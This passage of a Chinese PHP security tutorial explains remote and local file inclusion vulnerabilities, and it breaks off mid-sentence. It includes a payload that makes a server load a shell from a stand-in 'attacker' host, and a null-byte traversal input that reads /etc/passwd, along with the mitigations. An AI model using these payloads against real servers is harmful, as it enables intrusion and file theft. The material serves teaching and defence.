 # PHP安全

## 一.文件包含漏洞

​	文件包含漏洞的本质是代码注入，即用户可以控制脚本在服务器上执行。

​	而文件包含漏洞的直接原因是使用了include、require等函数，这些函数将被包含文件的内容当做PHP脚本执行（而不管这些文件的类型是什么），攻击者能够对这些函数所包含的文件进行控制。

​	文件包含漏洞常分为本地文件包含和远程文件包含。

### 1.远程文件包含：

​	远程文件包含的必要有条件是启用allow_url_include

------

栗子：

`````php
<? php
    if ($route == "share") {
        require_once $basePath . '/action/m_share.php';
    } elseif ($route == "sharelink") {
        require_once $basePath . '/action/m_sharelink.php';
    }
?>
`````

​	这里可以传入/? param=http://attacker/phpshell.txt?，注意最后的?，这也是一种截断方式

### 2.本地文件包含：

​	本地文件包含比远程文件包含的内容更多，技巧更丰富，可以结合文件上传等漏洞进行攻击。利用方式也多种多样，既可以执行脚本达到攻击目的，也可以查看一些目标主机上的保密文件（/etc/passwd等）。

----------------------------

例，使用文件包含漏洞读取文件：

``````php
<? php
    $file = $_GET['file']; // "../../etc/passwd\0"
    if (file_exists('/home/wwwrun/'.$file.'.php')) {
        // file_exists will return true as the file /home/wwwrun/../../etc/passwd exists
        include '/home/wwwrun/'.$file.'.php';
        // the file /etc/passwd will be included
    }
?>
``````

​	这段代码存在文件包含漏洞，构造 ?file=../../etc/passwd%00，这里使用了0字节截断了后续的文件后缀（5.3.4之前）。

​	0字节截断是文件包含的常用技巧，但是其在5.3.4之后已经被修复，即是目标是没有修复的版本，也可以使用函数 str\_replace("\0",'',$\_GET['查询参数']) 禁用0字节截断。利用操作系统对目录最大长度的限制，可以不需要0字节而达到截断的目的。目录字符串，在Windows下256字节、Linux下4096字节时会达到最大值，最大值长度之后的字符将被丢弃。如何构造出这么长的目录呢？通过“./”的方式即可，比如：
